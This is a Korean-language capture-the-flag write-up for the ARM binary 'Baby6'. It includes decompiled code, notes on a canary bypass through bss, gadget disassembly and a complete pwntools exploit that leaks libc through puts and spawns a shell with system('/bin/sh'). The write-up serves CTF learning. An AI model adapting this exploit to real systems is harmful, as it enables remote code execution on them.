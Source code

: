 ```yaml
---
title: Secfestctf Writeup
date: 2019-06-125
---
```


### Baby6

ARM arch (arm mode)

```c
int sub_8654()
{
  int v1; // [sp+0h] [bp-54h]
  char *v2; // [sp+4h] [bp-50h]
  char *i; // [sp+4h] [bp-50h]
  int v4; // [sp+8h] [bp-4Ch]
  char s; // [sp+Ch] [bp-48h]

  v1 = 0;
  v2 = &s;
  memset(&s, 0, 0x40u);
  setvbuf((FILE *)stdin, 0, 2, 0);
  setvbuf((FILE *)stdout, 0, 2, 0);
  alarm(0x3Cu);
  banner();
  while ( 1 )
  {
    printf("number: ");
    fgets(byte_112F0, 4132, (FILE *)stdin);
    v4 = atoi(byte_112F0);
    if ( !v4 )
      break;
    *(_DWORD *)v2 = v4;
    v2 += 4;
  }
  for ( i = &s; *(_DWORD *)i; i += 4 )
    v1 += *(_DWORD *)i;
  printf("\x1B[1mtotal:\x1B[0m %d\n", v1);
  return 0;
}
```

fgets로 bss에 쓰고 입력한 값을 atoi로 변환에 s 배열에 차곡차곡 넣어준다. canary가 있는데 bss영역에 canary 비교 값이 존재하고 그 값을 덮고 스택의 canary를 맞춰주면 된다.

```c
.bss:000116F0 __stack_chk_guard % 4                   ; DATA XREF: LOAD:0000826C↑o
.bss:000116F0                                         ; banner+C↑o ...
.bss:000116F0                                         ; Copy of shared data
```

arm 익스를 몇번 안해보기도 했고 잘 기억이 안났었는데 익스 자체는 mips랑 똑같이 바이너리 내부의 가젯을 이용했다. 기억 상에서는 pop r0 ~r8 이런식으로 가젯이 존재했던 것 같은데 보통 존재하지 않고 JOP로 익스를 해야 한다고 들었다.

```c
.text:0000881C loc_881C                                ; CODE XREF: sub_87E4+58↓j
.text:0000881C                 MOV     R0, R6
.text:00008820                 MOV     R1, R7
.text:00008824                 MOV     R2, R8
.text:00008828                 LDR     R12, [R10,R4,LSL#2]
.text:0000882C                 MOV     LR, PC
.text:00008830                 BX      R12             ; sub_85D4
.text:00008834                 ADD     R4, R4, #1
.text:00008838                 CMP     R4, R5
.text:0000883C                 BCC     loc_881C
.text:00008840
.text:00008840 loc_8840                                ; CODE XREF: sub_87E4+30↑j
.text:00008840                 LDMFD   SP!, {R4-R10,LR}
.text:00008844                 BX      LR
```

8840 으로 r 레지스터 세팅한 후 881c에서 해당 함수를 호출 할 수 있다 LDR R12, [R10,,,] 에서 *R10 을 로드하기 때문에 bss 영역에  puts_plt를 넣고 bss의 주소를 넣어주어야 한다. 

```python
from pwn import *
import sys

if len(sys.argv)>1 :
	t = remote('baby-01.pwn.beer',10006)
	#t = process(['qemu-arm','-L','/usr/arm-linux-gnueabi','./baby6'])
else :
	t = process(['qemu-arm','-g','8888','-L','/usr/arm-linux-gnueabi','./baby6'])

def pp(a):
	log.info("%s : 0x%x" % (a,eval(a)))

e = ELF('./baby6')
l = e.libc

sa = lambda w: t.sendlineafter("number:",str(w))
r = lambda z: t.recvuntil(str(z))

for i in range(18):
	sa("1")

puts = e.plt['puts']
puts_got = e.got['puts']
main = 0x8550

setting_r = 0x00008840 # LDMFD   SP!, {R4-R10,LR}
call = 0x0000881C

sa(str(setting_r))
sa("1")
sa("2")
sa(str(puts_got))
sa("1")
sa("1")
sa("1")
sa(str(0x112f0-4))
sa(str(call))

sa(main)
sa(main)
sa(main)
sa(main)
sa(main)
sa(main)
sa(main)
sa(main)
sa(main)
sa(main)
sa(main)

sa("\xfc\x84\x00\x00" + "1"*(0x400-4) + p32(1))
r("\n")

libc = u32(t.recv(4)) - 0x47b01 
pp('libc')
sys = libc + 0x2d4cd 
pp('sys')

for i in range(18):
	sa("1")

sa(str(setting_r))
sa("1")
sa("2")
sa(str(0x112f0+8))
sa("1")
sa("1")
sa("1")
sa(str(0x112f0))
sa(str(call))

sa("1"*4 + p32(sys) + "/bin/sh\x00" + "1"*(0x400-16) + p32(1))
sa("")

t.sendline("cat flag")

t.interactive()
```

puts leak -> system

립시 찾기가… 문제에서 립시를 안줬는데 립시를 사용안하고 풀 수 있는진 모르겠다.. 18.04에서 qemu로 돌리는거라 생각했는데 offset이 달라서 시간이 오래 걸렸다.. armhf 라이브러리를 사용하고 있어서 나중에 찾았음 ㅠ

풀 때 도움 주신 @shpik님 감사합니다.

